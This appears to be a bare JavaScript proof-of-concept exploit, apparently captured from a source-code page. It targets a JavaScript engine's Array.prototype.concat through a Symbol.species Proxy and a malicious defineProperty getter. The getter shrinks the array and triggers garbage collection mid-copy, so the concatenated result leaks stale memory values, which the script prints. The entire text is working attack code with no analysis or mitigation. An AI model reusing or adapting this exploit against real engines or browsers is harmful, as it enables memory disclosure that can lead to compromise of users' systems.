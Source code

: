 
var p = new Proxy([], {});
var b_dp = Object.prototype.defineProperty;

class MyArray extends Array {
    static get [Symbol.species]() {
        return function() { return p; }
    }; 
}

var w = new MyArray(100);
w[1] = 0.1;
w[2] = 0.1;

function gc() {
    for (var i = 0; i < 0x100000; ++i) {
        var a = new String();
    }
}

function evil_callback() {
    w.length = 1; 
    gc();        
    return b_dp;
}

Object.prototype.__defineGetter__("defineProperty", evil_callback);

var c = Array.prototype.concat.call(w);

for (var i = 0; i < 20; i++) { // however many values you want to leak
    console.log(c[i]);
}

